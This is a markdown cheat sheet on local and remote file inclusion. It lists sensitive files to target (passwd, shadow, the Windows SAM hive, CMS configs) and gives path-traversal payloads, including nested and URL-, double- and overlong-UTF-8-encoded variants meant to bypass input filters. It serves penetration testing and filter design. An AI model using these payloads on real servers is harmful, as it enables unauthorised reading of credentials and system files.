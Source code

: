# Local and remote file inclusion
Local file inclusion (LFI) vulnerabilities allow an attacker to read local files on the web server using malicious web requests. These files can include web configuration files, log files, password files and other sensitive system data. LFI can also be used for remote code execution (RCE). In most cases, this vulnerability is due to poor input sanitization.

Remote file inclusions are similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user (e.g. www-data).

## Interesting files
If an LFI vulnerability exists, look for these files:

### Linux
Linux system files:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```
**Log files**
Potentially interesting logfiles:
```
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```
**CMS configuration files**
Content management system configuration files:
```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```
### Windows
Files that may exist on Windows systems:
```
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```
The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows. 
```
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
## Techniques

### Basic
Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:
```
http://host/?page=../../../../../etc/passwd
```
Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

### Nesting traversal sequences
If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```
....//

....\/

..../\

....\\
```

### URL-encoded
Encoding all the slashes and dots in your path traversal could bypass input filters:
 
```
dot             %2e
forward slash   %2f
backslash       %5c
```
Example: 
```
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded
Another encoding method:
```
dot             %252e
forward slash   %252f
backslash       %255c
```
Example:
```
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Overlong UTF-8 encoding
You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection

## Further reading
* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)
